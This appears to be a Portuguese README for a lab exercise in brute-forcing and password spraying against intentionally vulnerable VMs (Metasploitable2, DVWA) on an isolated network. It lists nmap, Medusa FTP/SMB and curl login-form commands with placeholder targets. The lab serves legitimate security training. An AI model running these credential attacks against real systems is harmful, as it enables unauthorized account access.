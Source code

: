 ### Ambiente (recomendado)
- Host: VirtualBox (ou VMware)
- 2 VMs:
  - **Kali Linux** (atacante)
  - **Metasploitable2** e/ou **DVWA** (alvo vulnerável)
- Rede: *Host-only* ou *Internal Network* (isolada da Internet)
- Ferramentas:
  - medusa
  - hydra (opcional)
  - nikto / dirb (opcional)
  - nmap (enumeração)
- Observação: mantenha o ambiente isolado e legal — só atacar máquinas que você controla.

### Cenários de Teste
1. **FTP (Metasploitable2)**  
   - Ataque de força bruta contra FTP usando Medusa com uma wordlist simples.
2. **Formulário web (DVWA)**  
   - Automação de tentativas contra formulário de login (se DVWA configurado para inseguro) — cuidado com limites e CSRF.
3. **SMB (password spraying + enumeração)**  
   - Enumeração de usuários (e.g., via enum4linux / smbclient) seguida de password-spraying (senhas comuns) por meio do Medusa.

### Wordlists e Comandos (exemplos)
Crie uma pasta `wordlists/` no repositório com wordlists pequenas para demonstração (ex.: `small-userlist.txt`, `small-passlist.txt`).

**Exemplo: nmap (enumeração)**  
```bash
# varrer portas e serviços básicos
nmap -sV -Pn -p 21,22,80,139,445 <IP_ALVO>
Medusa — FTP (exemplo)

# medusa utilizando lista de usuários e senhas
medusa -h <IP_ALVO> -u userlist.txt -P passlist.txt -M ftp


Medusa — SMB (password spraying)

# testar uma senha para vários usuários (spraying)
medusa -h <IP_ALVO> -U userlist.txt -p 'Password123' -M smbnt


Automação contra formulário web (conceito)
Para formulários HTML pode-se usar curl em um loop ou ferramentas específicas/robots — sempre com autorização:

# exemplo conceitual (não execute sem autorização)
curl -X POST -d "username=USER&password=PASS&submit=Login" http://<IP_DVWA>/vulnerabilities/brute/login.php


Obs: adapte os comandos ao alvo; os módulos do Medusa são: ftp, http, http-form-post, smbnt, etc. (confira medusa -h).

Validação e Evidências

Salve logs e outputs (em /artifacts/), por exemplo:

nmap-output.txt

medusa-ftp-results.txt

```